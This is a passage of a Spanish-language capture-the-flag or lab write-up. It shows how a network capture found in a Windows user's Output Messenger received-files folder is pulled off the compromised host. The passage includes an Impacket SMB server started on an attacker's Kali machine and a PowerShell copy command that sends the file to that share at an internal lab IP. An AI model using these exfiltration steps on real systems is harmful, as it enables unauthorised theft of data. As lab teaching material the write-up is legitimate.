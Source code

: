 ```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> ls

    Directory C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/23/2024   4:10 AM         292244 network_capture_2024.pcapng

PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301>
```

Nos volveremos a montar un servidor SMB en nuestra Kali para compartirnos este archivo encontrado.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Copiaremos el archivo mencionado al recurso compartido SMB que tenemos en nuestra Kali.

{% code overflow="wrap" %}
```powershell
PS C:\Users\O.martinez\AppData\Roaming\Ouput Messenger\FAAA\Received Files\203301> copy 292244 network_capture_2024.pcapng \\10.10.16.5\smbFolder\292244 network_capture_2024.pcapng
```
{% endcode %}

Abriremos la captura de Wireshark obtenida, verificaremos el siguiente resultado.

<figure><img src="../../../.gitbook/assets/imagen (28).png" alt=""><figcaption></figcaption></figure>
